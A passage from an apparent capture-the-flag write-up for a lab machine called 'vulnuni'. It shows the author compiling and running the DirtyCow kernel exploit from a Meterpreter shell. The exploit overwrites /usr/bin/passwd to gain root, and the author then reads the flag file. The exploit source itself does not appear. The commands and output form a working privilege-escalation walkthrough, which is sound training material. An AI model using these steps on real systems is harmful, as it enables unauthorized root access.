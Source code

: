 ```bash
root@kali$ root@kali:~/Desktop# gcc -pthread cowroot.c -o cowroot 
```

With the exploit on the target machine, I made it executable with chmod and executed it. The dirty cow exploit upgraded my limited www-data shell to a full root shell. I quickly read the flag in the root directory with cat. 

```bash
root@kali$ msf >
meterpreter > shell
Process 2241 created.
Channel 0 created.
export TERM=xterm
export SHELL=bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
python -c ‘import pty;pty.spawn(“/bin/bash”)’
www-data@vulnuni:/var/www/vulnuni-eclass/courses/tmpUnzippingroot@kali$ ./cowroot
./cowroot
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
Size of binary: 42824
Racing, this may take a while..
/usr/bin/passwd overwritten
Popping root shell.
Don’t forget to restore /tmp/bak
thread stopped
thread stopped
root@vulnuni:/var/www/vulnuni-eclass/courses/tmpUnzipping# cat /root/flag.txt
cat /root/flag.txt
ff19f8d0692fe20f8af33a3bfa6635dd
root@vulnuni:/var/www/vulnuni-eclass/courses/tmpUnzipping# whoami
whoami
root
root@vulnuni:/var/www/vulnuni-eclass/courses/tmpUnzipping# id
id
uid=0(root) gid=33(www-data) groups=0(root),33(www-data)
root@vulnuni:/var/www/vulnuni-eclass/courses/tmpUnzipping#
```
<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">